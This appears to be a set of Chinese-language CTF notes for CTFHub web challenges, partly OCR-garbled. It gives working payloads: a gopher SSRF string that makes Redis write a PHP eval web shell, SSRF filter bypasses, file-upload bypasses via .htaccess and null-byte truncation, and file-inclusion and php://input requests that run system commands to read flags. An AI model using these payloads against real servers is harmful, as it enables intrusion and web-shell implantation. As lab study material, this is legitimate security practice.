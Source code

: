 ```sh
gopher%3A%2F%2F127.0.0.1%3A6379%2F_config%2520set%2520dir%2520%2Fvar%2Fwww%2Fhtml%2F%250D%250Aconfig%2520set%2520dbfilename%2520shell.php%250D%250Aset%2520x%2520%2522%253C%253Fphp%2520%2540eval%2528%2524_POST%255B%2527cmd%2527%255D%2529%253B%253F%253E%2522%250D%250Asave%250D%250A
```
## [ByPass]
* url: HTTP的基本身份认证允许Web浏览器或其他客户端程序在请求时提供用户名和口令形式的身份凭证，格式为http://user@domain。以@分割URL，前面为用户信息，后面才是真正的请求地址
* number: 127.0.0.1, localhost, 0, 0.0.0.0...
* 302跳转绕过
* DNS重绑定绕过
## [fastCGI]
```
127.0.0.1:9000
```
gopher
```
```

# [SSRF Deeper]
一些中间件的默认配置项就设定了一些可解析的格式，如.phtml、.phps、.pht、.php2、.php3、.php4、.php5等
## [文件上传]
文件绕过，.htaccess把目录和子目录下所有文件都当成php处理：
```
SetHandler application/x-httpd-php
```
00截断，
```
POST /?road=/var/www/html/upload/empty.php%00.gif HTTP/1.1
```
## [文件包含]
```
GET /?file=shell.txt&ctfhub=system("ls") HTTP/1.1
```
`ls`没有结果显示，flag应该没在`/var/www/html`路径下。使用AntSword连challenge-6fe846579e2d1d51.sandbox.ctfhub.com:10800/?file=shell.txt能连接成功，还可以这样连。。。
## [php://input]
get改post加`Content-Type: application/x-www-form-urlencoded`
```sh
POST /?file=php://input HTTP/1.1
Host: challenge-fe24f50a3307aa2a.sandbox.ctfhub.com:10800
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

<?php phpinfo(); ?>
```
post内容修改成`<?php system('ls'); ?>`等找到flag并显示`<?php system('cat /flag_9022'); ?>`
## [php://filter]
```
php://filter/read=convert.Base64-encode/resource=/flag
```